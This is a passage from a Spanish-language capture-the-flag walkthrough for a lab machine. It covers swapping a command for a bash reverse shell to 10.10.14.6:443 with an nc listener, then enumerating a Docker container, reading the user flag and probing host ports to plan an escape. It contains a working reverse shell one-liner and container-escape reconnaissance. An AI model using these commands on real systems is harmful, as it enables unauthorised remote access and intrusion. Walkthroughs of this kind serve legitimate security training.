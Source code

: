 Cambiamos el comando "id" por `bash -c "exec bash -i &>/dev/tcp/10.10.14.6/443 <&1"` y, después de ponernos en escucha con `nc -nlvp 443`, le damos a guardar cambios:

![image](../zimages/Pasted%20image%2020241031171436.png)

## Escapada del contenedor docker

Ya somos root, pero no acaba aquí la cosa ya que si hacemos un `hostname -I`, vemos que la ip no concuerda con la de la máquina, lo que quiere decir que estamos ante un contenedor de docker:

![image](../zimages/Pasted%20image%2020241031172810.png)

No obstante, si vamos a /home/, vemos que hay un usuario llamado "augustus", si nos metemos en su perfil, podremos leer la flag de user `cbd7227d20aca2ede44f26b2cc2b9fef`:

![image](../zimages/Pasted%20image%2020241031173248.png)

con el comando `route -n`, podemos ver la ip con la que se comunica el docker y la máquina víctima, que en nuestro caso es la `172.19.0.1`:

![image](../zimages/Pasted%20image%2020241031174614.png)

Sabiendo esto, podemos hacer un `ping -c 1 172.19.0.1` desde el contenedor de docker para ver si tenemos conexión con la máquina:

![image](../zimages/Pasted%20image%2020241031174734.png)

Ahora bien, como podemos salir de este contenedor? Si nos fijamos en el directorio /home, vemos que la carpeta se llama augustus, pero no hay ningún usuario así en el sistema actual, ya que si buscamos en /etc/passwd, solo existe el usuario root. Vamos a hacer un `ls -la` en /home:

![image](../zimages/Pasted%20image%2020241031175518.png)

el dueño de la carpeta "augustus" es '1000', cosa que es rara, esto quiere decir que esta carpeta es una montura, es decir, que hay una especie de acceso directo a la misma carpeta en la máquina víctima. 
Necesitamos salir de este contenedor, si recordamos el escaneo de nmap del principio, nos acordamos de que solo estaba abierto el puerto 80, vamos a ver si hay algún puerto abierto más. En el contenedor de docker no podemos utilizar nmap, sudo ni vim, ya que no están instalados, así que podemos intentar lo siguiente:

1. Enviar una cadena vacía mediante `echo` para ver si un puerto está abierto. Si el código de respuesta es correcto (0), es que el puerto está abierto, pero si el código es (1), es que el puerto está cerrado:
El puerto 80 está abierto

![image](../zimages/Pasted%20image%2020241031180624.png)
El puerto 24 está cerrado

![image](../zimages/Pasted%20image%2020241031180817.png)

2. Probar con el puerto de ssh (22), que es de los más comunes, a ver si hay suerte y está abierto:
